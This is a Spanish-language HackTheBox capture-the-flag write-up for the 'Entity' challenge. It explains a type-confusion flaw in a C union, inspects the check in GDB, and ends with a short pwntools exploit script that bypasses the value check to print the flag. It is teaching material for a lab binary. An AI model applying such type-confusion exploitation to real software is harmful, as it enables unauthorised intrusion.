 ```yaml
---
layout: default
title: Entity
parent: HackTheBox
---
```


# Entity
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---
Tenemos un binario donde explotaremos la vulnerabilidad Type Confusion para utilizar incorrectamente un valor de un tipo como si fuera otro tipo.
{:.lead}

## Analisis

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
### Main

```c
int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    bzero(&DataStore, sizeof(DataStore));
    printf("\nSomething strange is coming out of the TV..\n");
    while (1) {
        menu_t result = menu();
        switch (result.act) {
        case STORE_SET:
            set_field(result.field);
            break;
        case STORE_GET:
            get_field(result.field);
            break;
        case FLAG:
            get_flag();
            break;
        }
    }

}
```
En el main, tenemos un ```switch case``` con 3 opciones, donde dependiendo de lo que este en la funcion ```menu```, es lo que va a hacer

### Menu

```c
menu_t menu() {
    menu_t res = { 0 };
    char buf[32] = { 0 };
    printf("\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    buf[strcspn(buf, "\n")] = 0;
    switch (buf[0]) {
    case 'T':
        res.act = STORE_SET;
        break;
    case 'R':
        res.act = STORE_GET;
        break;
    case 'C':
        res.act = FLAG;
        return res;
    default:
        puts("\nWhat's this nonsense?!");
        exit(-1);
    }
```

Nos damos cuenta que en la opcion ```C``` corresponde al ```case FLAG``` de la funcion main:

```c
case FLAG:
    get_flag();
    break;
```
Donde se manda a llamar a la funcion ```get_flag()```:

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```
Donde para mostrar la flag, tenemos que hacer que ```DataStore.integer``` sea igual a ```13371337```, sin embargo, hay una funcion que nos lo impide:

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```
Donde esta validando si ```DataStore.integer``` es igual a ```13371337``` que imoprima en pantalla el mensaje ```puts("\nWhat's this nonsense?!");``` y sale del programa

### Codigo vulnerable

Cada vez que se esta usando ```DataStore.integer``` se hace referencia a esta estructura:

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

En C, la estructura ```union``` puede almacenar varios tipos de datos en la misma direccion de memoria. Por ejemplo, en este caso, ```integer``` es una variable que ocupa 8 bytes en la memoria, la cual almacena un valor entero de 64 bits, y ```string``` es otra variable la cual es una arreglo de caracteres que igual ocupa 8 bytes en la memoria (cada letra es un byte), y nosotros podemos acceder a esas variables a travez de ```DataStorage``` dependiendo de como queremos interpretar los datos dentro de ```union```, y ```union``` se encargara de ponerlas en la misma direccion de memoria, idependientemente del tipo de dato.

Y de toda esta explicacion viene la vulnerabilidad ```Type confusion``` o confusion de tipos, en la cual basicamente es un tipo de vulnerabilidad que ocurre cuando un programa utiliza incorrectamente un valor de un tipo como si fuera otro tipo. Y para este ejercicio podemos utilizar incorrectamente del valor de la variable ```string``` como si fuera el de la variable ```integer```

**Problema**

Al intentar pasarle el numero ```13371337``` como string, indicandole la opcion ```S``` como lo indica el ```case S```:

```c
case 'S':
    res.field = STRING;
    break;
```

El programa no muestra la flag:

![](/assets/img/HTB-entity/tc1.png)

Y es por esta comprobacion:

```c
case STRING:
    memcpy(DataStore.string, buf, sizeof(DataStore.string));
    break;

```
Sin embargo se supone que esta todo "bien", asi que para ver que se esta comparando realmente en ```DataStore.integer == 13371337```

### Analisis con GDB

En un gdb metere un breakpoint en la intruccion donde se realiza la comparacion:

```
0x0000000000001412 <+11>:	cmp    rax,0xcc07c9
```

Primero que nada, lo que esta haciendo ```cmp    rax,0xcc07c9``` es comparar ```DataStorage``` que se guarda en ```rax```, con ```0xcc07c9``` que es el numero ```13371337```. Cuando ejecute el programa yo le indique que se guardara como string.

Al ver el valor de ```rax```:

![](/assets/img/HTB-entity/tc2.png)

Nos podemos dar cuenta que lo que se guarda en ```DataStorage``` es un decimal: ```0x3733333137333331```, entonces para explotar esta confusion de tipos, podemos mandarle el numero 13371337 como string de bytes en little endian, por que ya no se estaria comprobando en la funcion ```set_field```, osea asi:

```
b'\xc9\x07\xcc\x00\x00\x00\x00\x00'
```

## Exploit

Y con todo lo anterior, el exploit queda asi:

```python
from pwn import *

p = process("./entity")

p.sendline("T")
p.sendline("S")
p.sendline(p64(13371337))
p.sendline("C")
p.interactive()
```

Y ya tenemos la flag:

![](/assets/img/HTB-entity/tc3.png)

Eso ha sido todo, gracias por leer ❤
